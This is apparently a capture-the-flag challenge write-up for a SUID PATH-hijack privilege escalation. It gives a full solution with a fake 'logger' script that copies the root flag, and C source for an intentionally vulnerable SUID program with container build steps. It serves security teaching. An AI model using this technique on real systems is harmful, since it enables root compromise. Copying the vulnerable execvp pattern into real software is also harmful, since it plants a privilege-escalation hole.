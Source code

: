 # Challenge 10 — SUID PATH Hijack

## Description
Exploit a SUID root program that calls `logger` without a full path. By putting a fake `logger` earlier in `PATH`, the program runs your script as root and reveals the flag.

# Solution
Follow these steps inside the running container as user `ctfuser`.

1. Read the breadcrumbs to understand the hint about `logger` and `PATH`.
   ```bash
   cat /home/ctfuser/README.txt
   cat /opt/notes/sysadmin_note.txt
   ```

2. Confirm there is a SUID binary.
   ```bash
   ls -l /usr/local/bin/vuln
   # expect: -rwsr-xr-x root root ... /usr/local/bin/vuln
   ```
   The `s` shows it runs with root privileges.

3. Notice that it calls `logger` and likely relies on `PATH`.
   ```bash
   strings /usr/local/bin/vuln | grep -i logger || echo "Proceed even if nothing prints"
   ```

4. Create a fake `logger` that copies the flag to a readable file.
   ```bash
   cat > ~/logger <<'EOF'
   #!/usr/bin/env bash
   set -euo pipefail
   cat /root/flag.txt > /tmp/flag.out
   EOF
   chmod +x ~/logger
   ```

5. Put your home directory first in `PATH` and confirm resolution.
   ```bash
   export PATH="$HOME:$PATH"
   command -v logger     # should print /home/ctfuser/logger
   ```

6. Run the SUID program and read the flag.
   ```bash
   /usr/local/bin/vuln
   cat /tmp/flag.out
   ```

**Logic:** The SUID program executes with root’s effective (and real) UID. It calls `logger` without a full path, so the system searches `PATH`. Because your `~/logger` appears first, it runs your script as root and copies `/root/flag.txt` to `/tmp/flag.out`.

# Recreating this challenge
These steps describe how to rebuild the challenge at a high level (no `build.sh`). Use Alpine to keep the image small and Bash for consistency.

1. Create project structure and files.
   - `flag.txt` containing the secret flag (e.g., `flag{suid_path_hijack_works}`).
   - `README.txt` with a short note mentioning that the tool relies on `logger`.
   - `/opt/notes/sysadmin_note.txt` reminding to hardcode full paths for privileged tools.

2. Write the vulnerable program `vuln.c`. It should set real and effective IDs to root, then call `execvp("logger", ...)` (not `system()`), so it searches `PATH` for `logger`.
   ```c
   #include <unistd.h>
   #include <stdio.h>

   int main(void) {
       if (setgid(0) != 0 || setuid(0) != 0) {
           perror("setuid/setgid");
           return 1;
       }
       char *argv[] = {"logger", "-t", "vuln", "user-ran-vuln", NULL};
       execvp("logger", argv);
       perror("execvp");
       return 127;
   }
   ```

3. Build the binary in a temporary builder stage.
   - Base: `alpine:3.20`
   - Install `build-base`
   - Compile with `gcc -O2 -s -o vuln vuln.c`

4. Create the runtime image.
   - Base: `alpine:3.20`
   - Install `bash` (BusyBox already provides `logger`).
   - Create user `ctfuser` with home `/home/ctfuser`.
   - Copy `/root/flag.txt` and set permissions `600`.
   - Copy breadcrumbs to their paths.
   - Copy `/usr/local/bin/vuln` from builder.
   - Set owner to root and permissions to `4755` to enable SUID.
   - Set default user to `ctfuser`, workdir to `/home/ctfuser`, and keep the container alive with a simple Bash loop.

5. Design note (logical flaw and fix).
   - **Flaw found:** Using `system("logger ...")` on Alpine routes through `/bin/sh`, which may drop privileges, causing the fake `logger` to run as a normal user.
   - **Fix applied:** Use `setuid(0)/setgid(0)` and `execvp("logger", argv)` to call `logger` directly so the effective UID remains root while still relying on `PATH`. This preserves the intended vulnerability and keeps the challenge reliable across environments.
